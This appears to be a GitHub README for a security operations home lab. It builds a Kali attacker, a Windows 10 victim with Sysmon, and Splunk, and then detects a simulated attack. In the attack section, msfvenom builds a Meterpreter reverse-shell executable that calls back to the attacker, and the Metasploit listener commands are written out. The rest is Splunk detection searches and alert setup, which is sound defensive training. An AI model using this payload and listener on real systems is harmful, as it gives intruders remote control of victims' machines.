









## 💻 SOC Home Lab: Attack & Defense Simulation

## 📚 Table of Contents

1. [Introduction](#introduction)
2. [Lab Architecture](#lab-architecture)
3. [Tools Used](#tools-used)
4. [Installation Steps](#installation-steps)
    - [Kali Linux Setup](#kali-linux-setup)
    - [Windows 10 VM Setup](#windows-10-vm-setup)
    - [Sysmon Configuration](#sysmon-configuration)
    - [Splunk Installation](#splunk-installation)
5. [Attack Simulation](#attack-simulation)
6. [Log Monitoring with Splunk](#log-monitoring-with-splunk)
7. [Event Analysis](#event-analysis)
8. [Alert Creation](#alert-creation)
9. [Conclusion](#conclusion)
10. [Useful Resources & Download Links](#useful-resources--download-links)


## Introduction 📌

This project showcases the creation of a virtual SOC home lab designed to simulate and analyze cyberattacks. It includes an attacker machine (Kali Linux), a victim machine (Windows 10), and a centralized logging system (Splunk) for real-time monitoring. The workflow includes:

  - Setting up and configuring virtual   
    environments

  - Installing Sysmon for advanced Windows    
    event logging

  - Generating and executing payloads using  
    msfvenom

  - Tracking and analyzing attack behavior 
    through Splunk dashboards

## Lab Architecture 🏗️

- **Kali Linux (Attacker)** - Used to generate payloads and launch attacks.
- **Windows 10 VM (Defender)** - Target system with Sysmon and Splunk Forwarder.
- **Splunk** - Installed to monitor Windows logs on attacker’s or another machine.

[Kali Linux (Attacker)]  ───►  [Windows 10 (Victim)]  ───►  [Splunk (Log Monitoring)]
       [Attack]                     [Payload Executes]            [Log Collection + Detection]


## Tools Used 🛠️
| Tool       | Purpose                       |
|------------|-------------------------------|
| Kali Linux | Payload generation, Metasploit|
| Windows 10 | Victim system                 |
| Sysmon     | Detailed event logging        |
| Splunk     | Log collection & analysis     |

## Installation Steps ⚙️ [🔗 Useful Resources & Download Links](#-useful-resources--download-links).
Step 1: Set Up Virtual Machines
  1.1 Kali Linux (Attacker Machine)
    - Download Kali ISO from the official   
      website
    - Create a new VM in VirtualBox or   
      VMware and install Kali Linux.
    - Update the system:
```bash
sudo apt update && sudo apt upgrade -y 
``` 
  1.2 Windows 10 (Target Machine)
    - Download Windows 10 ISO from the  
      Microsoft website.
    - Create a VM and install Windows 10.
    - Ensure networking is enabled for    
      communication between VMs.

Step 2: Install Splunk (for Log Monitoring)
  - Download Splunk Free from the Splunk   
    website.
  - Install Splunk on your Windows 10 VM.
  - Start Splunk and log in with admin  
    credentials.
  - Add data input to receive Windows logs 
    via the Universal Forwarder.

Step 3: Install Sysmon on Windows 10
  - Download Sysmon from Microsoft 
    Sysinternals.
  - Download a ready-to-use config file like 
    sysmonconfig-export.xml from SwiftOnSecurity or SysmonModular.
  - Move both files to a folder (e.g.,    
    C:\Program Files\Sysmon)
  - Run in PowerShell (as Administrator):

```powershell
.\Sysmon64.exe -accepteula -i sysmonconfig-export.xml
```

## Attack Simulation 💥

This section demonstrates how a reverse shell attack was carried out from Kali Linux to Windows 10 using Metasploit and msfvenom.

🔧 Step 1: Create Payload Using msfvenom
On Kali Linux:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_Kali_IP> LPORT=4444 -f exe -o reverse_shell.exe
```


Step 2: Transfer Payload to Windows 10
Transfer reverse_shell.exe to the Windows VM using:

  - Shared folders
  - HTTP server (e.g., python3 -m http.server)
  - Or simple drag-and-drop if using 
    VirtualBox with Guest Additions


Step 3: Set Up Metasploit Listener
```bash
msfconsole
```
Inside msfconsole:
```bash 
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <Your_Kali_IP>
set LPORT 4444
run
```
Wait for the Windows user to execute reverse_shell.exe.


Step 4: Gain Access
 Once executed, the Meterpreter session starts:
```bash
sysinfo
getuid
```
 You've now successfully simulated a reverse shell attack on the Windows 10 target.



## Log Monitoring with Splunk 🔍
After executing the payload on the Windows 10 machine, logs were generated by Sysmon and forwarded to Splunk for real-time monitoring and analysis.

 📝 Step 1: Configure Splunk to Receive Logs
    - On Splunk (Attacker or Monitoring VM):
       - Go to Settings → Add Data → Monitor
       - Choose Local Event Logs or Forwarded 
         Data
       - Select logs like:
          - Microsoft-Windows-Sysmon/  
             Operational
          - WinEventLog:Security, System, etc.
       - Set index=main and sourcetype 
         appropriately



📥 Step 2: Use Search to View Logs
Example 1: See process creation (Sysmon EventCode 1)
```spl
index=main sourcetype="WinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1
```
Example 2: Filter for the reverse shell
```spl
index=main sourcetype="WinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 
| search Image="*reverse_shell.exe" OR CommandLine="*reverse*"
```


What You Can Detect
- Executable launch: reverse_shell.exe from unusual folders like Downloads
- Network connection: EventCode 3 (outgoing reverse connection)
- Parent-child relationships: explorer.exe spawning malicious file

## Event Analysis 📊
Sysmon generates detailed logs for system activity. These logs were forwarded to Splunk and used to trace the attack path and behavior.

🔢 Key Sysmon EventCodes Used

| EventCode | Meaning                      | Why It Matters in This Lab                                    |
| --------- | ---------------------------- | ------------------------------------------------------------- |
| **1**     | Process Creation             | Captured the launch of `reverse_shell.exe` (our reverse shell)   |
| **3**     | Network Connection           | Detected the reverse shell connection from Windows to Kali    |
| **7**     | Image Loaded (DLLs, EXEs)    | Helpful for seeing modules loaded by `reverse_shell.exe`         |
| **11**    | File Created                 | Tracks if payload creates or drops files                      |
| **4688**  | Windows Event (Security Log) | Also shows process creation, useful for cross-checking Sysmon |

🧠 How We Used Them
Detected reverse_shell.exe with EventCode 1:
```spl 
index=main sourcetype="WinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 
| search Image="*queenshell.exe"
```
Detected reverse network connection with EventCode 3:
```spl
index=main sourcetype="WinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=3 
| search DestinationIp="<Kali_IP>"
```
Correlated Parent-Child Process:
```spl 
| table _time, Image, ParentImage, CommandLine, User
```
This helped identify that explorer.exe (normal user process) launched reverse_shell.exe, indicating possible user-based infection.


## Alert Creation 🚨
After identifying malicious activity in logs (like execution of reverse_shell.exe), an alert was configured in Splunk to automatically notify when such suspicious behavior occurs.
🧷 Step 1: Write a Detection Query
Here's a Splunk query to detect suspicious .exe files run from the Downloads folder:
```spl 
index=main sourcetype="WinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 
| search Image="C:\\Users\\*\\Downloads\\*.exe" OR CommandLine="*reverse*"
```
This detects any .exe being launched from the Downloads directory, which is often where users unknowingly run malware.


📢 Step 2: Create the Alert in Splunk
1. Run the query in Splunk Search.
2. Click Save As → Alert
3. Fill in
    - Title: Suspicious Executable in Downloads
    - Trigger Condition: If results > 0
    - Trigger Alert: Once per result
    - Actions: Email or add to Incident Panel (optional)


✅ How It Helps
This alert ensures that any future payloads or reverse shells downloaded and executed from common folders are detected automatically, just like in real SOC environments.

## Conclusion ✅

This project successfully demonstrates how a SOC analyst can detect and respond to real-world cyberattacks in a controlled lab environment. By simulating a reverse shell attack using Kali Linux and monitoring system activity on a Windows 10 machine with Sysmon and Splunk, we practiced hands-on threat detection, log analysis, and incident response.

The lab helps build foundational skills in attack simulation, log collection, correlation, and alert creation — making it a valuable experience for anyone pursuing a career in cybersecurity.

## Useful Resources & Download Links 🔗
- [Kali Linux ISO](https://www.kali.org/get-kali/)
- [Windows 10 ISO](https://www.microsoft.com/software-download/windows10)
- [Sysmon](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)
- [Sysmon Config (SwiftOnSecurity)](https://github.com/SwiftOnSecurity/sysmon-config)
- [Splunk Free](https://www.splunk.com/en_us/download.html)
- [VirtualBox](https://www.virtualbox.org/wiki/Downloads)

